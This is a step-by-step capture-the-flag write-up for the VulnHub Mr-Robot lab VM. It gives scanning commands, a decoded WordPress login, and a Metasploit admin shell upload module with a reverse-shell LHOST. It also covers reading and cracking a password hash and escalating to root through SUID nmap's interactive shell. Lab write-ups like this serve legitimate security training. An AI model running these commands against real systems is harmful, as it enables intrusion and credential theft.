# Mr-Robot: 1 Walkthrough

## Preparation
1. Download mrRobot.ova file ([mrRobot.ova](https://download.vulnhub.com/mrrobot/mrRobot.ova))

1. Add the mrRobot.ova file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
        

1. Start the mrRobot virtual machine
    * Turn on the mrRobot virtual machine from the VirtualBox  
      

1. Confirm the IP address of the mrRobot virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.112**: mrRobot Server  

1. Set the mrRobot IP address to the environment variance  
    * `export IP=192.168.56.112`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
      
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file
    * As we see the nmap result, we can attempt to access of 80 (HTTP Service), and 443 (HTTPS Service) ports.  

1. Access to the HTTP Service  
    * Access with Web browser  
      
        - `http://192.168.56.112/`  
        - Unfortunately, we cannot find effective information  
   
1. Collect the HTTP service information  
    * Use Nikto  
      
        - `nikto -h "http://$IP:80/"`  
        - Found the several interesting URLs  
    * Access the "/license.txt" file  
      
        - Scroll down to the bottom  
        - We found the encoded key: **ZWxsaW90OkVSMjgtMDY1Mgo=**  

## Execution  
1. Investigate the encoded key  
    * Decode the key  
        - `echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d`  
        - Username: **elliot**  
        - Password: **ER28-0652**  

1. Access to the WordPress  
    * Access to the "wp-login" page  
      
        - We can access to the WordPress dashboard  

1. Use WordPress exploit module  
    * Use Metasploit  
      
        - `msfconsole -q`  
        - `search wordpress shell`  
        - `use exploit/unix/webapp/wp_admin_shell_upload`  
        - `set USERNAME elliot`  
        - `set PASSWORD ER28-0652`  
        - `set RHOSTS 192.168.56.112`  
        - `set LHOST 192.168.56.101`  
        - `set WPCHECK false`  
        - `exploit`  

1. Change shell  
    * Get TTY shell  
      
        - `shell`  
        - `python -c 'import pty; pty.spawn("/bin/sh")'`  

1. Search system  
    * Open the "password.raw-md5" file  
      
        - `cd /home`  
        - `cd robot`  
        - `cat password.raw-md5`  
        - **robot:c3fcd3d76192e4007dfb496cca67e13b**  

1. Analyze the hass  
    * Use CrackStation (https://crackstation.net/)  
      
        - The password:**abcdefghijklmnopqrstuvwxyz**  

## Persistence  
1. Investigate the system with robot user  
    * Change the user to robot  
      
        - `su robot`  
        - Password: abcdefghijklmnopqrstuvwxyz  

    * Search SUID file  
      
        - `find / -type f -perm -u=s 2> /dev/null`  

## Privilege Escalation  
1. Exploit the Nmap  
    * Execute the "nmap --interactive" command  
      
        - `nmap --interactive`  
        - `!sh`  

## Credential Access  
1. Open the root flag file  
    * Open the key-3-of-3.txt  
      